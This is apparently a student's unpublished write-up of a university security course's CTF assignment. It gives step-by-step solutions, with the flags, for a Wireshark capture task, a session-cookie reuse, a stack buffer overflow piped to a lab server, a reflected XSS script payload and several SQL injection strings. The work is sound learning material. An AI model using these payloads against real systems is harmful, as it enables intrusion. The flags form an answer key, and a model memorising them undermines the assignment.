 ```yaml
---
layout: post
published: false
title: CS2107 - Assignment 2
---
```

# Introduction to wireshark
1. Download the pcap
2. right click the packet  > Follow > TCP stream
3. Flag is inside

code: `flag{b@bYsh@rk_doo0o0o_W1r3sh@rk_doOo0o_d0o0o0o_d0o_W1rEsh@rk}`

# Cookie Monster
1. Filter the wireshark by cookie `http.cookie`
2. Search for the cookie within the packet
	`cs2107 = 19d07781081e792d7a67d85c3cd1b061`
3. Enter the website in the packet: http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb (It mus say nice try)
4. Insert the cookie you have found in step 2

Flag: `http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb`

# Stack Overflow
1. Install indian in ubuntu
2. Little endian want ur input to be in this format: `0721CDAB`
3. `echo -n -e '\x07\x21\xcd\xab'`
4. Buffer overflow the programmer with 36 characters at the front 
5. Use pipelining to push the output into ur program 
	`echo -n -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | ./simple`
- [Idea](https://stackoverflow.com/questions/26949856/how-do-you-take-user-input-as-hex-characters-through-gets-function-linux)
6. Just do the same thing on the actual server
`echo -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | nc ctf.nus-cs2107.com 10003`

Flag: `flag{6e97e993d3caa7952c170accf2398f78}`

# XSS me
1. Enter the following into the textbox
`"><script>alert('gimme the flag pls')</script>`

Flag: `flag{R3fleCt3D_xSs_is_V3R7_34Sy_R1GH7?}`

# SQL Statment

## Level 1
- Insert: `1'!='1` in textbox

> `1` and `1` are not equal (Character)

Flag: `flag{WhO_dO3sN't_LOv3_Fr33_M4rk5!}`

## Level 2
- Insert: `1!=1; --or ' or 1=1-- or 1=1--` in textbox

Working:
- The `--` becomes a comment
- First query: Ignores the stuff behind the `--`
- Second query: Ignore the front before the `--` since its in quotes 
Flag: `flag{pR3qU3l_1s_sO_mucH_eZ13r_wh3n_c0mP4r3D_tO_tH1$}`

## Level 3
- Insert: `1!=1; --or ' or 1=1-- or 1=1--'" != "a`

Working:
- From Part 2, insert: `" ! = "a`
- This covers the front " for query 3
- Essentially for query 3, it is just querying `"a"!="a"`

flag{w0w_4R3nt_y0u_4_S3Qu3L_M4$T3R!!!}


